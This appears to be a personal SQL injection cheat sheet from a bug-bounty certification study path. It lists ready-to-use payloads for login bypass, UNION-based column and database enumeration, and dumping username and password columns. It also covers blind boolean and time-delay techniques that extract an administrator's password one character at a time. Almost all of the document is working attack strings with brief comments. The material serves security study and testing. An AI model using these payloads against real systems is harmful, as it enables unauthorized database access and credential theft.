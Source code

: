 # CBBH PATH

# SQL Injection
```powershell
# Cheat Sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet
```

## Find the Vuln Query
```powershell
# Check the url after the ?raman=raman
# Check login fields
```

## Fix the Query (Comment)
```powershell
--
#
```

## Payloads
```powershell
' or 1=1 --
'--
```
## String Concatenation
```powershell
' UNION select NULL, username || '*' || password from users--
```

## Detmine the number of columns
```powershell
# Using UNION. The number and the order of the columns must be the same in all queries && The data types must be compatible
cn' UNION select NULL, NULL, NULL-- -
cn' UNION select NULL, NULL, NULL, NULL-- -
UNION select NULL, NULL, NULL, NULL from raman-- -

# Using OrderBy
' order by 1-- -
```

## Finding a column containing text (Data Type)
```powershell
# In case of an error it means the column is not type string
# In case of no error it menas the column is type string
cn' UNION select NULL, 'raman', NULL, NULL-- -
UNION select username, NULL, NULL, 'raman' from raman-- -
```

## DB Enumeration
```powershell
SELECT @@version #Fingerprint MySQL with query output
SELECT SLEEP(5) #Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- - #Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - #List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - #List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - #List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- - #Dump data from a table in another database
```

# Blind SQLI
## Blind SQLI -  Find the vulnerable parameter (Conditional Responses)
```powershell
keep in mind that you need to find some strings to be returned from the web app like a welcome back message, if the query is true it will return welcome back otherwise it won't. If you can convert the true query to a false one this indicates a blind SQLI vulnerability exists. Example:
' and 1=1--  -> if this return true
' and 1=0--  -> if this return false
(Blind SQLI is present)
```

## Confirm that we have a users table (Conditional Responses)
```powershell
' and (select 'x' from users LIMIT 1)='X'--
```

## Confirm that username administrator exists in the users table (Conditional Responses)
```powershell
' and (select username from users where username ='administrator' LIMIT 1)='administrator'--
```

## Enumerate the password of the administrator user (Conditional Responses)
```powershel
1) determine the password length
# is the password > 1. If it returns true check if the password > 2 and so on... you can use intruder(sniper)
' and (select username from users where username='administrator' and LENGTH(password)>1)='administrator'--

2) check if the first character is = 'A'. if yes u will get the welcome back message otherwise you will go to the next character 'B'... you can use intruder(cluster bomb)
' and (select substring(password,1,1) from users where username='administrator')='a'--
```

## Time Delays
```powershell
' || (SELECT pg_sleep(10))--
```

## Confirm that the users table exists (Time Delays)
```powershell
' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users)--
```

## Confirm the password length
```powershell
1) determine the password length
' || (SELECT CASE WHEN (username='administrator' and LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END from users)--

2) check if the first character is = 'A'. if yes u will get the welcome back message otherwise you will go to the next character 'B'... you can use intruder(cluster bomb)
' || (SELECT CASE WHEN (username='administrator' and substring(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users)--
```

